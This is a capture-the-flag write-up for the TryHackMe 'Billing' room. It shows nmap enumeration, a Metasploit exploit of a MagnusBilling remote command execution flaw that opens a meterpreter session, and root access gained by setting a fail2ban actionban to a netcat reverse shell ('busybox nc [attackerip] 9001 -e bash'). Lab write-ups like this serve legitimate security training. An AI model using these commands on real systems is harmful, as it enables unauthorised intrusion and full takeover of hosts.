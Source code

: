 ```yaml
---
title: "Billing"
date: 2025-03-10
image: /assets/img/tryhackme/Billing/Billing_image.jpg
description: Writeup of the TryHackMe-CTF Billing
categories: [TryHackMe, Easy]
tags: [linux, metasploit, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Billing</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Some mistakes can be costly.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/billing">https://tryhackme.com/room/billing</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Billing.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.46.219         
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 05:13 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.046s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  3306/tcp open  mysql
  5038/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 22.38 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,3306,5038 10.10.46.219
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 05:14 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.042s latency).

  PORT     STATE SERVICE  VERSION
  22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
  | ssh-hostkey: 
  |   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
  |   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
  |_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
  80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
  | http-robots.txt: 1 disallowed entry 
  |_/mbilling/
  | http-title:             MagnusBilling        
  |_Requested resource was http://10.10.46.219/mbilling/
  |_http-server-header: Apache/2.4.56 (Debian)
  3306/tcp open  mysql    MariaDB (unauthorized)
  5038/tcp open  asterisk Asterisk Call Manager 2.10.6
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The webserver showed the login page of MagnusBilling, which is an open-source billing system for VoIP-services:

![MagnusBilling login](/assets/img/tryhackme/Billing/thm_billing_1.jpg)

I checked for potential vulnerabilities in `metasploit` and found an interesting exploit:
```bash
msf6 > search MagnusBilling

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .

```

After loading the module, I set the required options and executed the exploit: 
```bash
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.251.160
RHOSTS => 10.10.251.160
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set SRVHOST [attackerip]
SRVHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST [attackerip]
LHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.21.63.26:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.251.160:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.15 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 10.10.251.160
[+] Deleted lTTlGxPShDz.php
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.251.160:39784) at 2025-03-08 05:38:44 -0500

meterpreter > 
```

With this initial access, I successfully retrieved the user flag:
```bash
meterpreter > shell
  Process 1750 created.
	Channel 0 created.
whoami
	asterisk
cd /home
ls
	magnus
cd magnus
ls
  Desktop
  Documents
  Downloads
  Music
  Pictures
  Public
  Templates
  Videos
  user.txt
cat user.txt
  THM{[removed]}
```

## Privilege Escalation root

To obtain a more stable shell, I switched to `penelope`:

![Switch to penelope](/assets/img/tryhackme/Billing/thm_billing_2.jpg)

I continued with `sudo -l` and got the following output:
```bash
asterisk@Billing:/home$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

After researching Fail2Ban, I discovered that it is possible to execute Bash commands in addition to network block events. Before I started to missuse this I checked if I can control `fail2ban`:
```bash
asterisk@Billing:/home$ sudo fail2ban-client restart
  Shutdown successful
  Server ready
```

Great! Using this, I misused it with an additional ban-action:
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'busybox nc [attackerip] 9001 -e bash'"
```

Finally, I started a listener and triggered this by manually blocking an IP address in the `sshd jail`: 
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd banip 10.11.12.13
```

I successfully established the connection and retrieved the root flag.:
```bash
$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [attackerip] from (UNKNOWN) [10.10.251.160] 47964
whoami
	root
cd /root
ls
	filename
	passwordMysql.log
	root.txt
cat root.txt
	THM{[removed]}
```

solved! :)
